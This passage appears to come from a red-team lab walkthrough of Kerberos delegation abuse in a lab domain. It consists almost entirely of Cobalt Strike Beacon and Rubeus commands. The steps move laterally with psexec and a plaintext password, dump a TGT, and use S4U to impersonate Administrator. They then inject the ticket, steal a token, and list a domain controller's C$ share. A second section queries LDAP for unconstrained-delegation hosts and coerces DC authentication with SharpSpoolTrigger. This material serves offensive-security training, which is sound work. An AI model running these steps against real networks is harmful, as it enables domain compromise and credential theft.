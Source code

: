     2.  make_token CONTOSO\rsteel Passw0rd!
    3.  jump psexec64 lon-ws-1 smb
-  Dump the TGT for _lon-ws-1_.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7 /service:krbtgt /nowrap`
    
-  Perform the S4U abuse to obtain a usable service ticket for _time/lon-dc-1_, substituting the service name for _cifs_.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:lon-ws-1$ /msdsspn:time/lon-dc-1 /altservice:cifs /ticket:[TGT] /impersonateuser:Administrator /nowrap`
    
-  Inject the ticket into a sacraficial logon session.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:[CIFS TICKET]`
    
-  Impersonate the process.
    
    1. steal_token [PID]
-  Verify the ticket has been injected.
    
    1. run klist
-  Use the ticket to list the C$ share on _lon-dc-1_.
    
    1. ls \\lon-dc-1\c$


### S4Uself 

- Use LDAP to find computers configured with unconstrained delegation.
    
    BeaconTypeCopy
    
    `ldapsearch (&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname`
    
-  Move laterally to _lon-ws-1_.
    
    2.  make_token CONTOSO\rsteel Passw0rd!
    3.  jump psexec64 lon-ws-1 smb
-  Run Rubeus in monitor mode on _lon-ws-1_.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /nowrap`
    
-  From the medium-integrity Beacon, use a remote authentication trigger to force _lon-dc-1_ to authenticate to _lon-ws-1_.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe lon-dc-1 lon-ws-1`
    